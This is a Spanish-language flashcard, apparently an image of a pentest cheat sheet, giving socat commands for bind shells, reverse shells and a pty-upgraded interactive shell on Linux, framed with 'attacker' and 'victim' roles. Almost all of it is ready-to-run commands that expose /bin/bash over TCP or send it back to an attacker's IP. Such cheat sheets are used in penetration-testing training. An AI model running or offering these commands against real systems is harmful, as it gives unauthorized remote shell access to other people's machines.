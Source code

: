 **Flashcard: Reverse and Bind Shells con Socat en Linux**

---

**Requisitos previos:**

* Instalar `socat` en ambas máquinas (atacante y víctima).
* Permisos adecuados para abrir puertos y ejecutar comandos.

---

### 1. Bind Shell con Socat (Victim escucha, Attacker se conecta)

**Victim (Linux objetivo) escucha en puerto 4444:**

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

* `TCP-LISTEN:4444`: abre puerto 4444 escuchando.
* `reuseaddr`: permite reusar dirección.
* `fork`: crea nuevo proceso para cada conexión.
* `EXEC:/bin/bash`: ejecuta shell al conectar.

**Attacker se conecta con:**

```bash
socat -,raw,echo=0 TCP:<Victim-IP>:4444
```

* Accede al shell remoto.

---

### 2. Reverse Shell con Socat (Victim conecta al Attacker)

**Attacker escucha en puerto 4444:**

```bash
socat TCP-LISTEN:4444,reuseaddr -
```

**Victim ejecuta:**

```bash
socat EXEC:/bin/bash TCP:<Attacker-IP>:4444
```

* Victim conecta al atacante y redirige shell a la conexión.

---

### 3. Técnica Especial (Túnel entre tty y socat para shell interactivo mejorado)

**Victim:**

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:"bash -li",pty,stderr,setsid,sigint,sane
```

* `pty`: pseudo-terminal asignado para shell interactivo.
* `bash -li`: shell interactiva login para mejor comportamiento.

**Attacker:**

```bash
socat -,raw,echo=0 TCP:<Victim-IP>:4444
```

---

### Notas:

* Socat mejora estabilidad y control del shell respecto a netcat.
* Usar `-raw,echo=0` para evitar eco local en conexión attacker.
* `pty` y opciones avanzadas permiten shells más completas.
* Siempre limpiar procesos y cerrar conexiones tras uso.

---